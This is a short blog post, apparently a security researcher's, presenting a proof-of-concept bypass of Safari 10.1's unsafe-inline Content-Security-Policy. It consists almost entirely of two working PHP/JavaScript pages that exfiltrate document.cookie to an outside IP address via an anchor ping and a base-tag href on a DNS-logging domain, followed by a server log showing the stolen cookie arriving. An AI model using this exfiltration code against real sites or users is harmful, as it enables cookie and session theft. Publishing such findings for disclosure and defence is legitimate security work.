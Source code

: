 ```yaml
---
layout: post
title: Safari 10.1 Browser unsafe-inline CSP Bypass
---
```


####  cat safari_12.php

	<?php
	    header("Content-Security-Policy: default-src none 'unsafe-inline'");
	?>
	<script>
	x = (new Date()).valueOf();
	document.cookie = "csp=" + escape("SECUREKEY321789591") + ";";
	
	n0tr00t = document.head.appendChild(document.createElement("a"));
	n0tr00t.href = "#";
	n0tr00t.ping = "http://45.32.53.191:8000/?" + x + document.cookie;
	n0tr00t.click();
	</script>

####  cat safari_15.php

	<?php
	    header("Content-Security-Policy: default-src none 'unsafe-inline'");
	?>
	<script>
    x = (new Date()).valueOf();
    document.cookie = "csp=" + escape("SECUREKEY321789591") + ";";
    
    n0tr00t = document.head.appendChild(document.createElement("base"));
    n0tr00t.href = "http://" + x + ".base.safari.vqn3j8.ceye.io/?" + document.cookie;
    </script>

#### Resutls

	root@guest:/tmp# python -m SimpleHTTPServer
	Serving HTTP on 0.0.0.0 port 8000 ...
	- - [07/Sep/2017 06:59:45] "POST /?1504767585625csp=SECUREKEY321789591;
	- - HTTP/1.1" 501